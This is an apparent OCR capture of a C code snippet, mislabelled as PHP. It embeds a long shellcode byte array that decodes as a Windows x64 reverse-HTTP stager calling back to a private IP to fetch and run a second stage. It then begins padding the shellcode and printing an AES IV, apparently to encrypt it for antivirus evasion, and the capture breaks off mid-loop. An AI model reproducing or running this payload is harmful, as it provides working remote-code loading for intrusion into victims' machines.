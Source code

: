 ```php
    unsigned char  plain\[\] \= "\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc8\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48\\x01\\xd0\\x66\\x81\\x78\\x18\\x0b\\x02\\x75\\x72\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0\\x66\\x41\\x8b\\x0c\\x48\\x44\\x8b\\x40\\x1c\\x49\\x01\\xd0\\x41\\x8b\\x04\\x88\\x48\\x01\\xd0\\x41\\x58\\x41\\x58\\x5e\\x59\\x5a\\x41\\x58\\x41\\x59\\x41\\x5a\\x48\\x83\\xec\\x20\\x41\\x52\\xff\\xe0\\x58\\x41\\x59\\x5a\\x48\\x8b\\x12\\xe9\\x4f\\xff\\xff\\xff\\x5d\\x6a\\x00\\x49\\xbe\\x77\\x69\\x6e\\x69\\x6e\\x65\\x74\\x00\\x41\\x56\\x49\\x89\\xe6\\x4c\\x89\\xf1\\x41\\xba\\x4c\\x77\\x26\\x07\\xff\\xd5\\x48\\x31\\xc9\\x48\\x31\\xd2\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x41\\x50\\x41\\x50\\x41\\xba\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xeb\\x73\\x5a\\x48\\x89\\xc1\\x41\\xb8\\x50\\x00\\x00\\x00\\x4d\\x31\\xc9\\x41\\x51\\x41\\x51\\x6a\\x03\\x41\\x51\\x41\\xba\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x59\\x5b\\x48\\x89\\xc1\\x48\\x31\\xd2\\x49\\x89\\xd8\\x4d\\x31\\xc9\\x52\\x68\\x00\\x02\\x40\\x84\\x52\\x52\\x41\\xba\\xeb\\x55\\x2e\\x3b\\xff\\xd5\\x48\\x89\\xc6\\x48\\x83\\xc3\\x50\\x6a\\x0a\\x5f\\x48\\x89\\xf1\\x48\\x89\\xda\\x49\\xc7\\xc0\\xff\\xff\\xff\\xff\\x4d\\x31\\xc9\\x52\\x52\\x41\\xba\\x2d\\x06\\x18\\x7b\\xff\\xd5\\x85\\xc0\\x0f\\x85\\x9d\\x01\\x00\\x00\\x48\\xff\\xcf\\x0f\\x84\\x8c\\x01\\x00\\x00\\xeb\\xd3\\xe9\\xe4\\x01\\x00\\x00\\xe8\\xa2\\xff\\xff\\xff\\x2f\\x58\\x34\\x5a\\x77\\x00\\xbd\\xa3\\x09\\x05\\x92\\x94\\xc5\\x2c\\x92\\x73\\x8c\\x7d\\xfe\\x2c\\xa4\\x45\\xe8\\x6c\\xab\\xa5\\x52\\xec\\x1d\\x16\\x89\\x43\\x65\\x7c\\x19\\x1e\\x3e\\xc5\\x49\\x2f\\x52\\xf4\\xdc\\x29\\x12\\x73\\x35\\x72\\x89\\xba\\x04\\xdf\\xc1\\xd9\\x2d\\x20\\xec\\x91\\x82\\x56\\x29\\xc3\\x29\\x23\\x0f\\xaa\\x25\\xc1\\x6b\\x14\\x03\\x31\\x9e\\x39\\x88\\x39\\xb0\\xde\\xd8\\x00\\x55\\x73\\x65\\x72\\x2d\\x41\\x67\\x65\\x6e\\x74\\x3a\\x20\\x4d\\x6f\\x7a\\x69\\x6c\\x6c\\x61\\x2f\\x34\\x2e\\x30\\x20\\x28\\x63\\x6f\\x6d\\x70\\x61\\x74\\x69\\x62\\x6c\\x65\\x3b\\x20\\x4d\\x53\\x49\\x45\\x20\\x38\\x2e\\x30\\x3b\\x20\\x57\\x69\\x6e\\x64\\x6f\\x77\\x73\\x20\\x4e\\x54\\x20\\x35\\x2e\\x31\\x3b\\x20\\x54\\x72\\x69\\x64\\x65\\x6e\\x74\\x2f\\x34\\x2e\\x30\\x3b\\x20\\x2e\\x4e\\x45\\x54\\x20\\x43\\x4c\\x52\\x20\\x32\\x2e\\x30\\x2e\\x35\\x30\\x37\\x32\\x37\\x29\\x0d\\x0a\\x00\\xc1\\x01\\x5f\\x90\\xbe\\x7f\\x53\\xbb\\xa4\\xe1\\x6d\\x15\\x35\\x12\\x19\\xa0\\xb9\\xc3\\x9e\\xa6\\xa8\\xb4\\xb9\\x68\\x90\\x78\\xbf\\xab\\x92\\xc7\\x49\\xf5\\x56\\x0f\\xab\\xf0\\x17\\x6d\\x10\\x18\\xf0\\x1c\\xe5\\xed\\x23\\x3e\\x29\\x77\\x27\\xd2\\x22\\x04\\x09\\xa4\\x8b\\x0c\\x74\\xb6\\x56\\x02\\xe1\\xa0\\x3d\\x5e\\x66\\xe9\\x3c\\x93\\x1e\\x4b\\xb5\\xa9\\x60\\xcc\\x22\\x08\\x97\\x5f\\x56\\x60\\x4c\\x3c\\xb4\\x29\\xb2\\x16\\xed\\x7f\\xe9\\x54\\x64\\xf5\\xf7\\xbd\\x4c\\xd4\\x7d\\x33\\x78\\x76\\x7d\\xa8\\xe3\\x43\\xf2\\x8f\\x2d\\x1f\\x31\\xf0\\xb9\\x84\\xf7\\x1f\\x82\\x4b\\x07\\x22\\x1e\\x8d\\x1f\\xf0\\xc8\\xc1\\x06\\xb8\\xd7\\x25\\x6a\\x69\\xc7\\x5d\\x74\\x5c\\xbb\\x2e\\x3a\\xb7\\xd0\\xa1\\x62\\x74\\xc7\\x3e\\x14\\x7e\\x3f\\x3f\\x56\\xa1\\xdc\\x0c\\x1e\\xec\\xb5\\x59\\x28\\x52\\x23\\xaf\\x68\\x79\\xb5\\xf1\\xb4\\x50\\x7a\\xab\\xe4\\x28\\xf2\\x91\\x0c\\x73\\xdc\\x4c\\x49\\xc6\\xb7\\xa9\\xa9\\x8c\\x7b\\x24\\x51\\x23\\xc8\\x93\\xe2\\xd7\\x96\\x95\\x56\\x0c\\x7b\\x6a\\xad\\xaf\\x85\\xc9\\xe3\\xab\\x7c\\x35\\xfe\\x00\\x41\\xbe\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x48\\x31\\xc9\\xba\\x00\\x00\\x40\\x00\\x41\\xb8\\x00\\x10\\x00\\x00\\x41\\xb9\\x40\\x00\\x00\\x00\\x41\\xba\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x48\\x93\\x53\\x53\\x48\\x89\\xe7\\x48\\x89\\xf1\\x48\\x89\\xda\\x41\\xb8\\x00\\x20\\x00\\x00\\x49\\x89\\xf9\\x41\\xba\\x12\\x96\\x89\\xe2\\xff\\xd5\\x48\\x83\\xc4\\x20\\x85\\xc0\\x74\\xb6\\x66\\x8b\\x07\\x48\\x01\\xc3\\x85\\xc0\\x75\\xd7\\x58\\x58\\x58\\x48\\x05\\x00\\x00\\x00\\x00\\x50\\xc3\\xe8\\x9f\\xfd\\xff\\xff\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x31\\x34\\x38\\x2e\\x31\\x33\\x37\\x00\\x00\\x00\\x22\\x90";  

​  
    int plain\_size \= sizeof(plain) / sizeof(plain\[0\]);  
    if (plain\_size % 16 != 0) {  
        plain\_size \= plain\_size + (16 \- (plain\_size % 16));  
    }  
​  
    printf("明文:");  
    for (int i \= 0; i < plain\_size; i++) {  
        printf("%x", plain\[i\]);  
    }  
    printf("\\n");  
​  
    unsigned char iv\[\] \= {0x01, 0x02, 0x03, 0x09, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f};  
    printf("IV:");  
    for (int i \= 0; i < 16; i++) {  
```